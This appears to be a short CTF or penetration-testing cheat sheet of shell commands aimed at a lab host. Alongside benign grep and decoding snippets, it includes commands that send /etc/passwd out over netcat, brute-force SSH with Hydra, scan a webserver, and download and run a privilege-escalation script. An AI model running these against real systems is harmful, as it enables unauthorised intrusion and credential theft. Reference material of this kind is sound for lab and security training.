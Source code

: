 ## Quick and Dirty Commands

For the following examples assume:

**Remote IP:** `10.37.129.11`

**Local IP:** `10.37.129.4`

##### Find a file with the a specified string
`cat /etc/* | grep FLAG2`

##### Regex in Grep
`ls -al | grep '[a-z][0-9].jpeg'`

##### HEX to ASCII convert
`echo "46 4c 41 47" | xxd -r -ps`

##### Base64 Decode
`echo dmlldyBzb3VyY2UgO0QK | base64 -D`

##### Check webserver for things
`nikto -h 10.37.129.11`

##### Enumerate directories
`dirb http://10.37.129.11`

##### FTP on custom port
`ftp -p 10.37.129.11 4200`

##### Search for a package on the system
`rpm -qa | grep ftp`

##### Copy file over netcat | nc
Local Listener: `nc -l -p 2222 > passwd`

Remote Listener: `cat /etc/passwd | netcat 10.37.129.4 2222`

##### Hydra quick user/password enumeration
`hydra -L /usr/share/wordlists/custom/usernamelist.txt -P /usr/share/wordlists/custom/passwordlist.txt -u -s 22 10.37.129.11 ssh -t 4`

##### Pull down linuxprivchecker.py and run
```bash
$ wget https://raw.githubusercontent.com/t04glovern/icu/master/tools/linuxprivchecker.py
$ python linuxprivchecker.py > linux_priv_check.txt
```
